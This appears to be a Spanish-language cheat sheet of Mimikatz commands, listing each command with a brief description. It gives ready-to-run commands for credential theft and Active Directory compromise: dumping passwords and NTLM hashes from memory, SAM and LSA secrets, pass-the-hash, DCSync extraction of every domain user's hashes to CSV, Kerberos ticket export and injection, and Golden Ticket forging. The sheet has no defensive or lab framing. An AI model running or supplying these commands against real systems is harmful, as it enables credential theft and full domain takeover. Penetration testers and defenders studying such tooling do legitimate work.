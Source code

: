 # Mimikatz

## Comandos básicos
`privilege::debug`
- Eleva privilegios para acceder a procesos protegidos del sistema.

`token::elevate`
- Eleva el token del proceso actual a SYSTEM (si es posible).

`version`
- Muestra la versión de Mimikatz y detalles del sistema operativo.

## Dumpear creds
`sekurlsa::logonpasswords`
- Lista todas las sesiones activas y sus credenciales en memoria (incluye contraseñas y hashes).

`sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:NTHASH /run:COMMAND`
- Inicia un proceso autenticado usando Pass the Hash.

`lsadump::sam`
- Extrae hashes NTLM y LM de cuentas locales desde el archivo SAM.

`lsadump::lsa /patch`
- Extrae secretos LSA del sistema, como contraseñas de servicios y claves de dominio.

`lsadump::dcsync /user:USERNAME`
- Simula una replicación de controlador de dominio (DCSync) para obtener hashes de un usuario específico.

`lsadump::dcsync /all /csv`
- Extrae hashes de todos los usuarios del dominio y los exporta en formato CSV.

## Kerberos

`kerberos::list /export`
- Lista los tickets Kerberos disponibles en memoria y los exporta a archivos .kirbi.

`kerberos::ptt FILE.kirbi`
- Inyecta un ticket Kerberos en la sesión actual.

`kerberos::golden`
- Genera un Golden Ticket para autenticarse como cualquier usuario en el dominio.

